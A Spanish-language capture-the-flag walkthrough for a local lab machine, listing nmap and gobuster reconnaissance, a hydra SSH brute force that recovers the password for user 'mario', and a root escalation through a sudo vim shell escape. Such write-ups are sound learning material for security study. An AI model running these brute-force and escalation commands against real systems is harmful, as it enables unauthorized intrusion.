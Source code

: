 ## 1) Me anoto la IP que es fundamental para saber a quien atacar

## 2) nmap para identificar posibles puertos abiertos
```
nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 172.17.0.2
```
Cada parámetro:

`-p-: quiero explorar los 65535 puertos pues no se cual puede estar abierto`\
`--open: sólo me importan los abiertos, ni cerrados ni filtrados`\
`-sS: quiero que haga stealth scanning, es un escaneo silencioso que no completa el 3 way handshake`\
`-vvv: que sea bien verboso, a medida que encuentra un resultado, lo escupa`\
`---min-rate XXXX: que sea veloz y no mande menos de tantos pkg por segundo`\
`-n: no quiero resolución DNS, es lento`\
`-Pn: quiero evitar que haga host discovery, puede ser lento`

##3) Una vez identificados posibles puertos abiertos quiero ser más exhaustivo con el análisis de cada uno
```
nmap -p22,80 -sC -vvv 172.17.0.2
```
`-p22,80: acá pongo los puertos que me identificó como abiertos previamente`\
`-sC: el tipo de script que quiero que corra para realizar un escaneo, es el default, scripts en Lua. Va a brindar información sobre el host y tecnologias que usa`\

## 4) otra utilidad para conocer detalles de la IP víctima es whatweb
`whatweb 172.17.0.2`
Da información sobre el sistema operativo, la versión de Apache o lo que estuviese corriendo, y más.

## 5) Ahora voy a hacer fuzzing para investigar qué endpoints hay
```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -x php,txt
```
Hago fuzzing por medio de gobuster y utilizando una lista de palabras 
`dir: para utilizar el modo de enumeración de archivos/directorios `\
`-w <PATH>: la lista de palabras a utilizar para el fuzz`\
`-t X: cantidad de threads concurrentes`\
`-x php,txt el tipo de extensiones a buscar (ej. index.php, secrets.txt) `\

Encontré una página:
/secret.php --> dice "Hola Mario"

## 6) Como la página dice 'Hola Mario' y previamente con nmap descubrí que el puerto 22 (SSH) estaba abierto, pienso hacerle fuerza bruta al usuario mario/root.
```
hydra -l mario -P /usr/share/wordlists/rockyou.txt <IP> -t 64
```
`-l <USER>: seteo el USER, el nombre de logeo`\
`-P <FILE>: cargo el archivo con contraseñas para hacer fuerza bruta`\
`-t N: cuantas tareas correr en paralelo por cada ataque`\

Encontré la contraseña del usuario mario:
user: mario | passw: chocolate

Pero necesito la del usuario root

## 7) Necesito escalar privilegios desde el user mario al user root
```
sudo -l
```
Verifico si el usuario actual tiene algún tipo de permiso especial.
Resulta que tiene permiso para correr cualquier cosa con `/usr/bin/vim`. Con lo cual si puedo correr a nivel de sudo vim, puedo aprovechar y ejecutar un comando junto con el launch de vim, por ejemplo
```
sudo /usr/bin/vim -c ':!/bin/bash'
```
Esto me va a abrir una terminal de bash en la cual seré un usuario root. Una vez que cierre esa bash me va a devolver a vim. Sin embargo acá ya termina la máquina pues logré acceder al usuario root.


